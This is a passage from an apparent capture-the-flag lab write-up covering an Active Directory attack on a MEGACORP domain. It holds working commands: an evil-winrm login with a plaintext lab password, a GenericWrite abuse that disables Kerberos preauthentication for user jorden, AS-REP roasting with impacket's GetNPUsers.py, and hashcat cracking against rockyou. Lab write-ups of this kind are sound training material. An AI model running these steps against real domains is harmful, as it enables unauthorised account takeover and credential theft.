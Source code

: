 exploit the genericwrite on user jorden, set Preauth to asrepoast.

```bash
evil-winrm -u MEGACORP\\sbauer -p 'D3veL0pM3nT!' -i $tip

## set-AdAccountcontrol to  asreproast
Get-ADUser Jorden | Set-ADAccountControl -DoesNotRequirePreAuth $true

## impacket exploit
GetNPUsers.py 'megacorp/jorden' -request
```

Crack the password.

```bash
hashcat --example-hashes | grep krb5asrep -C 20
hashcat -m 18200 multimaster-jorden.asrephash ../rockyou.txt
```



![image-20221225224911419](./images/image-20221225224911419.png)



Check password, correct.
